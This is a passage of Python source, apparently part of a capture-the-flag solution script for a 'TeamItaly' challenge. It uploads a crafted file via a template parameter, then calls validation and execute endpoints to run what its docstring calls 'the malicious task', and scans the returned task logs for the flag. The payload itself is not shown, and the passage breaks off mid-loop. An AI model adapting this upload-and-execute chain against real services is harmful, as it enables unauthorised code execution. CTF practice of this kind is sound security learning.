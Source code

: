 ```python
            response = session.post(f"{BASE_URL}/api/upload?template={template}", files=files)
        
        if response.status_code == 200:
            file_id = response.json()['id']
            print(f"File uploaded successfully with ID: {file_id}")
            return file_id
        else:
            print(f"Upload failed: {response.text}")
            return None
    finally:
        os.unlink(temp_file)

def check_task(session, file_id):
    check_data = {"id": file_id}
    response = session.post(f"{BASE_URL}/api/check", json=check_data)
    
    if response.status_code == 200:
        print("Task validation passed")
        return True
    else:
        print(f"Task validation failed: {response.text}")
        return False

def execute_task(session, file_id):
    """Execute the malicious task"""
    execute_data = {"id": file_id}
    response = session.post(f"{BASE_URL}/api/execute", json=execute_data)
    
    if response.status_code == 200:
        print("Task execution started")
        return True
    else:
        print(f"Task execution failed: {response.text}")
        return False

def get_task_logs(session, file_id):
    """Get the task execution logs to see the flag"""
    import time
    
    time.sleep(3)
    
    response = session.get(f"{BASE_URL}/api/task/{file_id}")
    
    if response.status_code == 200:
        task_data = response.json()
        logs = task_data.get('logs', [])
        
        flag_found = False
        for i, log in enumerate(logs, 1):
            print(f"\nLog Entry #{i}:")
            print(f"   Status: {log['status']}")
            if log.get('output'):
                print(f"   Output:")
                output_lines = log['output'].split('\n')
                for line in output_lines:
                    if line.strip():
                        print(f"     {line}")
                
                # Look for the flag in the output
                if 'TeamItaly{' in log['output']:
                    print(f"\nFLAG FOUND!")
                    output_lines = log['output'].split('\n')
                    for line in output_lines:
```